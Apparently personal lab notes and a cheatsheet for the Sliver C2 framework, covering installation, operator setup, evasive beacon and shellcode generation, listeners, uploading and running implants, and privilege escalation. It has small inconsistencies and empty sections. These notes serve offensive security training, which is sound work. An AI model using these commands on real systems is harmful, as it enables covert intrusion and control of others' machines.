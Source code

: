 
## Dealing with Errors
I ran into a lot. Common issues included:

Outdated sliver binaries
Pre-existing ~/.sliver directory
No mingw compiler
## Installing Sliver

```bash

# Remove existing sliver stuff, run as sudo
rm /bin/sliver
rm /bin/sliver-server
rm -rf /root/.sliver
rm -rf ~/.sliver

# Below is the easy way
####### IF YOU DO IT BELOW, BEWARE OF ERRORS WITH OUTDATED VERSIONS DUE TO HARDCODED VERSION IN WGET URL ##################
wget -O /bin/sliver-server https://github.com/BishopFox/sliver/releases/download/v1.5.43/sliver-server_linux 
chmod 755 /bin/sliver-server

wget -O /bin/sliver https://github.com/BishopFox/sliver/releases/download/v1.5.43/sliver-client_linux
chmod 755 /bin/sliver

# Windows C Compiler
sudo apt install mingw-w64

# Run as normal
# Unpack assets, as user
sliver-server unpack --force




```
We can make it run on startup by making a service
```bash
vi /etc/systemd/system/sliver.service
# Paste below file
```

```
[Unit]
Description=Sliver
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=on-failure
RestartSec=3
User=root
ExecStart=/bin/sliver-server daemon

[Install]
WantedBy=multi-user.target
```
Then
```bash
chmod 600 /etc/systemd/system/sliver.service
systemctl enable sliver && systemctl start sliver

# If you run into errors, it might be because sliver files already exist on your system, in /home/kali/.sliver, /root/.sliver, and ~/.sliver

# Check that the server is up
netstat -antopul


```

## Adding a New Operator
```bash
cd ~
sliver-server
# Review command
[server] sliver > help new-operator
# Listen on specific IP
[server] sliver > new-operator -n attacker -l tun0

# More generous allow

[server] sliver > new-operator -n attacker -l 0.0.0.0
# Enable multiplayer
[server] sliver > multiplayer

# New session
# Import the attacker config
sliver import attacker_0.0.0.0.cfg

# And boot sliver client
sliver


```

## Armory
Sliver's armory is a plugin system
```bash
# Get help
sliver > armory
# Install all
sliver > armory install all
```


## Generating Beacons
There's a lot of factors. The below generates a beacon that is called 'http_beacon', is a windows executable, listens on 127.0.0.1 (default port 80)
```bash
sliver > help generate beacon 
sliver > generate beacon --http 10.10.110.10 --os windows --evasion --seconds 5 --jitter 5

# One with a low delay/jitter
sliver > 
```

## Setting up a Listener
```bash
# Setup a listener for beacons on port 80
sliver > http --lport 80

# List active listeners
sliver > jobs

# Kill job 2, to free up listener on that port
sliver > kill -k 2 

```

## Using the Beacon

```bash
# List beacons
sliver > beacons
# Load an active beacon
sliver > use c44362b7

# List common commands
sliver > help

# Upload a file, note the double slashes
upload /home/kali/work/prolab/ligolo/ligolo-windows-agent.exe C:\\ProgramData\\ligolo-windows-agent.exe

# Upload a beacon
upload /home/kali/work/prolab/sliver/httpbeacon80fast.exe C:\\ProgramData\\fast.exe

# Execute that Beacon
sliver > execute powershell.exe -Command "Start-Process C:\\ProgramData\\fast2.exe"
# Run a command

# Spawn an interactive session

```

## Implants
Implants are basically a way of communicating. There are two types of implants: beacons (operate in intervals), and sessions (more immediate back and forth)
## Shellcode
Shellcode can be used to execute code and bypass AV's. Shellcode is usually executed by a droper.

Conceptually, the shellcode is hosted somewhere (usually your own server, and it's also usually obfuscated shellcode)

And the dropper is a simple program that accesses that hosted shellcode, and executes it.

```bash
sliver > generate beacon --arch amd64 --os windows --http 10.10.15.250:80 --format shellcode --evasion --timeout 300 --seconds 5 --jitter 1


```


## Cheatsheet

| **Command**                                                               | **Description**                                              |
| ------------------------------------------------------------------------- | ------------------------------------------------------------ |
| `help`                                                                    | Displays the commands and their descriptions                 |
| `http -L <Local IP> -l <Port>`                                            | Set up HTTP listener                                         |
| `profiles new --http <Local IP>:<Port> --format shellcode <Profile Name>` | Create a new C2 profile                                      |
| `stage-listener --url tcp://<Localhost:Port> --profile <Profile name>`    | Set up Stager listener                                       |
| `generate --http <Local IP>:<Port> --os <OS>`                             | Generates a session implant                                  |
| `generate beacon --http <Local IP>:<Port> --os <OS>`                      | Generates a beacon implant                                   |
| `sessions`                                                                | Lists active/inactive sessions                               |
| `sessions -K`                                                             | Removes all sessions available or not                        |
| `sessions prune`                                                          | Removes unavailable sessions                                 |
| `sessions -k -i <session>`                                                | Removes the specified session                                |
| `beacons`                                                                 | Lists active/inactive beacons                                |
| `tasks`                                                                   | Lists the pending or completed tasks ran by the operator     |
| `getsystem`                                                               | Attempts to get a session as NT AUTHORITY\SYSTEM             |
| `interactive`                                                             | Tasks the beacon to spawn a session that becomes interactive |
| `cd`                                                                      | Change directory                                             |
| `ls`                                                                      | Lists the contents of the directory                          |
| `download <file/directory>`                                               | Downloads a file/directory                                   |
| `upload`                                                                  | Uploads a file                                               |
| `execute-assembly`                                                        | Executes a .NET assembly in a child process                  |
| `execute-shellcode`                                                       | Executes the specified shellcode in process                  |
| `multiplayer`                                                             | Enables multiplayer mode on the server                       |
| `armory install <alias/extension>`                                        | Installs the given alias/extension                           |
| `armory install all`                                                      | Installs all of the available aliases/extensions             |